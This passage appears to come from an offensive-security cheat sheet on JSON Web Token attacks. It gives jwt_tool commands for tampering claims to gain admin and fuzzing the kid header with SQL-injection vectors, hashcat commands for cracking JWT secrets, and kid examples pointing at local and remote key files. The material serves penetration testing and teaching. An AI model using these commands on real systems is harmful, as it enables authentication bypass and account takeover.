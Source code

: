 * Recon: `python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw`
* Scanning: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -M pb`
* Exploitation: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`
* Fuzzing: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -I -hc kid -hv custom_sqli_vectors.txt`
* Review: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`


#### Hashcat

> Support added to crack JWT (JSON Web Token) with hashcat at 365MH/s on a single GTX1080 - [src](https://twitter.com/hashcat/status/955154646494040065)

* Dictionary attack: `hashcat -a 0 -m 16500 jwt.txt wordlist.txt`
* Rule-based attack: `hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule`
* Brute force attack: `hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6`


## JWT Claims

[IANA's JSON Web Token Claims](https://www.iana.org/assignments/jwt/jwt.xhtml)


### JWT kid Claim Misuse

The "kid" (key ID) claim in a JSON Web Token (JWT) is an optional header parameter that is used to indicate the identifier of the cryptographic key that was used to sign or encrypt the JWT. It is important to note that the key identifier itself does not provide any security benefits, but rather it enables the recipient to locate the key that is needed to verify the integrity of the JWT.

* Example #1 : Local file
    ```json
    {
    "alg": "HS256",
    "typ": "JWT",
    "kid": "/root/res/keys/secret.key"
    }
    ```

* Example #2 : Remote file
    ```json
    {
        "alg":"RS256",
        "typ":"JWT",
        "kid":"http://localhost:7070/privKey.key"
    }
    ```
